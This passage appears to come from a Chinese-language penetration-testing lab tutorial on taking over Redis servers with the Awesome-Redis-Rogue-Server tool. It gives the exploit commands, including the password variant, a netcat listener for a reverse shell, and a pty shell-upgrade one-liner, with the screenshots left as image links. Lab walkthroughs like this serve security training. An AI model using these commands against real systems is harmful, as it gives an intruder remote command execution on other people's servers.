 ![image.png](https://cdn.nlark.com/yuque/0/2021/png/22669825/1637650331076-926bb2c6-b1fc-4969-a97d-7b0a3434f4d4.png#clientId=u9ca82c02-4aec-4&from=paste&id=u3dbc8802&margin=%5Bobject%20Object%5D&name=image.png&originHeight=195&originWidth=811&originalType=binary&ratio=1&size=42330&status=done&style=none&taskId=u84972786-63c4-4046-91a3-cc7c773f87c)


#### 3、Awsome交互式 shell
`python3 redis_rogue_server.py -rhost 靶机ip -lhost 攻击方ip`
选择 `i`

![image.png](https://cdn.nlark.com/yuque/0/2021/png/22669825/1637634992732-ce89f9b4-56d5-494a-a1d0-8b33d36f216c.png#clientId=u59cd1f6a-96a6-4&from=paste&height=554&id=udf823566&margin=%5Bobject%20Object%5D&name=image.png&originHeight=738&originWidth=1061&originalType=binary&ratio=1&size=202537&status=done&style=none&taskId=u2fd2fe93-5d29-4066-9111-b5877c2a01c&width=796)

#### 4、Awsome反弹 shell
kali开启nc
`nc -lvvp 6666`

执行exp：
`python3 redis_rogue_server.py -rhost **靶机ip** -lhost **攻击方ip**`

选择`r`即反弹shell，输入kali的ip和监听端口

![image.png](https://cdn.nlark.com/yuque/0/2021/png/22669825/1637635652849-fffd9773-496e-4fa3-8352-f6f8ec28163b.png#clientId=u59cd1f6a-96a6-4&from=paste&height=235&id=uffe41062&margin=%5Bobject%20Object%5D&name=image.png&originHeight=313&originWidth=1053&originalType=binary&ratio=1&size=76818&status=done&style=none&taskId=uba0e8796-d7bc-4864-8c39-f606515487e&width=790)

接收到反弹的shell：

![image.png](https://cdn.nlark.com/yuque/0/2021/png/22669825/1637635501895-a334a773-d8a5-478c-9080-11d34aba1fc9.png#clientId=u59cd1f6a-96a6-4&from=paste&height=90&id=uae118716&margin=%5Bobject%20Object%5D&name=image.png&originHeight=120&originWidth=820&originalType=binary&ratio=1&size=25434&status=done&style=none&taskId=ua9ae4579-fb3e-42ec-94e2-4043b51df11&width=615)


### 2.4.2 有密码访问

[Awsome-Redis-Rogue-Server工具](https://github.com/Testzero-wz/Awsome-Redis-Rogue-Server)
 -- Redis存在密码可以使用该工具

密码设置：
redis.conf中的`requirepass 密码`去除注释

![image.png](https://cdn.nlark.com/yuque/0/2021/png/22669825/1637672935411-97d895a9-01a4-421a-8379-f5d28d35035c.png#clientId=u696b16cd-ca6b-4&from=paste&id=u039a92be&margin=%5Bobject%20Object%5D&name=image.png&originHeight=42&originWidth=198&originalType=binary&ratio=1&size=2417&status=done&style=none&taskId=ufa623bd5-4a51-4b78-a721-070c642ae7c)

#### 1、Awsome交互式shell
`python3 redis_rogue_server.py -rhost **靶机ip** -lhost **攻击方ip** -passwd **redis密码**`

![image.png](https://cdn.nlark.com/yuque/0/2021/png/22669825/1637636645671-30a6b412-0d43-4d44-8d6a-b8e9025012df.png#clientId=u59cd1f6a-96a6-4&from=paste&id=ua914a5ca&margin=%5Bobject%20Object%5D&name=image.png&originHeight=735&originWidth=1189&originalType=binary&ratio=1&size=211980&status=done&style=none&taskId=ud71396b7-9fb5-4a1b-ad1f-813d57960e9)

#### 2、Awsome反弹shell
kali开启nc
`nc -lvvp 6666`

执行exp：
`python3 redis_rogue_server.py -rhost **靶机ip** -lhost **攻击方ip**`

选择`r`即反弹shell，输入kali的ip和监听端口

![image.png](https://cdn.nlark.com/yuque/0/2021/png/22669825/1637637180658-476fba15-6342-4ac6-ab15-19df2be802a6.png#clientId=u59cd1f6a-96a6-4&from=paste&height=248&id=ua0f2d8bc&margin=%5Bobject%20Object%5D&name=image.png&originHeight=330&originWidth=1180&originalType=binary&ratio=1&size=87015&status=done&style=none&taskId=uc128425b-3fa2-43f9-8ecf-5593f886286&width=885)


已接收到反弹的shell，可以直接执行命令，或者使用python进入交互式命令执行界面。
`python3 -c "import pty;pty.spawn('/bin/bash')"`
或
`python -c "import pty;pty.spawn('/bin/bash')"`
